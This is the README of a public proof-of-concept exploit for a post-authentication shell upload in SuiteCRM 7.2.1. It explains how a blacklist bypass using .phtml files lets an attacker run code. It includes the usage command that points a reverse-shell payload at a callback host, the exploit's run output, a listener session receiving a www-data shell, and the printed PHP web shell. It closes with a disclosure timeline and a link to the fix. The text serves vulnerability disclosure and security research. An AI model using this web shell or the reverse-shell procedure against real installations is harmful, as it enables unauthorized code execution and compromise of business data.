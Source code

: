 # Exploit for SuiteCRM Post-Authentication Shell Upload
SuiteCRM suffers a post-authentication shell upload vulnerability in its "Upload Company Logo" functionality, wherin it uses a blacklist in an attempt to prevent the upload of executable code. Furthermore, its "check for valid image" test leaves uploaded files in a tempdir that is web accessible. It is possible to bypass the blacklist to upload executable PHP code with the "phtml" extension to this temporary directory and thus gain code execution under the context of the webserver user on the affected system. This vulnerability was discovered by Darren Martyn of Xiphos Research Ltd. while assessing the SuiteCRM software. The version tested was "suitecrm-7.2.1-max", as available on the SuiteCRM website on the 5/5/2015.

## Usage

To use, simply select which payload you want to use (currently only back_python.php is available, but I plan on adding back_php.php and back_perl.php at a later date). This is the 
"payload.php". You also must specify a callback host and port, along with the URL to the vulnerable SuiteCRM installation, and a valid username and password for an administrative 
user.

Example Use:
```
xrl:~$ python2 suiteshell.py http://192.168.2.111/suitecrm-7.2.1-max/ admin admin back_python.php 192.168.2.116 1337

███████╗██╗   ██╗██╗████████╗███████╗███████╗██╗  ██╗███████╗██╗     ██╗     
██╔════╝██║   ██║██║╚══██╔══╝██╔════╝██╔════╝██║  ██║██╔════╝██║     ██║     
███████╗██║   ██║██║   ██║   █████╗  ███████╗███████║█████╗  ██║     ██║     
╚════██║██║   ██║██║   ██║   ██╔══╝  ╚════██║██╔══██║██╔══╝  ██║     ██║     
███████║╚██████╔╝██║   ██║   ███████╗███████║██║  ██║███████╗███████╗███████╗
╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝
Exploit for SuiteCRM Post-Auth Shell Upload Version: 20150512.1
{+} Logging into the CRM...
{+} Uploading our shell...
{+} Probing for our shell...
{+} Shell located and functioning at http://192.168.2.111/suitecrm-7.2.1-max/upload/tmp_logo_company_upload/suiteshell.phtml
{*} Sending our payload...
{+} Using 192.168.2.116:1337 as callback...
{+} Dropping shell...
{+} Shell dropped... Triggering...
{+} got shell?
xrl:~$
```
Listener (I suggest using the [tcp-pty-shell-handler][shellhandle]):
```
xrl:~$ python2 /tmp/testing/python-pty-shells/tcp_pty_shell_handler.py -b 0.0.0.0:1337
Got root yet?
Linux hackthecrm 3.19.0-15-generic #15-Ubuntu SMP Thu Apr 16 23:32:01 UTC 2015 i686 i686 i686 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<suitecrm-7.2.1-max/upload/tmp_logo_company_upload$  cat suiteshell.phtml
<?php @assert(filter_input(0,woot,516)); ?>
<suitecrm-7.2.1-max/upload/tmp_logo_company_upload$
```

## Screenshot
![lol shell](https://raw.githubusercontent.com/XiphosResearch/exploits/master/suiteshell/screenshot/SuiteShell.png)

## Disclosure Timeline:
* 05/05/2015: Vulnerability discovered and validated. SuiteCRM contacted via twitter asking for a security contact.
* 06/05/2015: SuiteCRM provide security contact, vulnerability details sent.
* 06/05/2015: SuiteCRM respond and let me know I will be kept in the loop.
* 12/05/2015: No contact from SuiteCRM, automated PoC exploit written and provided along with notification of intent to request a CVE on 20/05/2015
* 20/05/2015: Deadline expires. Publish PoC and request CVE.

## Fix
[I submitted a pull request to temporarily patch the blacklist for now][pr]

## Licence
Licenced under the [WTFPL][wtfpl]

[wtfpl]: http://www.wtfpl.net/
[shellhandle]: https://github.com/infodox/python-pty-shells
[pr]: https://github.com/salesagility/SuiteCRM/pull/251
